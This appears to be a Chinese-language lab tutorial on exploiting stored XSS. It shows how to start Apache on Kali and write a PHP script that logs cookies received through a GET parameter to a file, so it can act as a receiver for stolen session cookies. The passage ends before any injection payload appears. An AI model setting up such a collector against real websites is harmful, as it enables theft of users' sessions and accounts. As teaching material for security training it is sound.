 ## XSS的利用

### 收集用户的敏感信息，如cookie

存储型XSS (持久型XSS )即攻击者将带有XSS攻击的链接放在网页的某个页面,例如评论框等；用户访问此XSS链接并执行,由于存储型XSS能够攻击所有访问此页面的用户,所以危害非常大。

### 收集cookie攻击

#### 1、构建收集cookie服务器

kali中启动

##### 1.启动kali中的apache服务器

```bash
systemctl start apache2 
systemctl status apache2
netstat -anpt | grep apache2
```

![image-20240820171437108](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820171437108.png)

#####  2.编写接受cookie的php文件

Apache服务器中编写接受cookie的php文件 

在`/var/www/html`目录下编写

```php
vim /var/www/html/cookie.php

<?php
	$cookie = $_GET['cookie'];
	$log = fopen("cookie.txt","a");
		fwrite($log,$cookie."\n");
		fclose($log);
?>
```

```bash
cat /var/www/html/cookie.php
```

![image-20240820172032287](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172032287.png)

##### 3.给网站用户授权

由于是root用户创建的，需要给网站用户授权

```bash
chown -R www-data:www-data /var/www/
```

![image-20240820172220878](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820172220878.png)

目前目录下没有`cookie.txt`文件
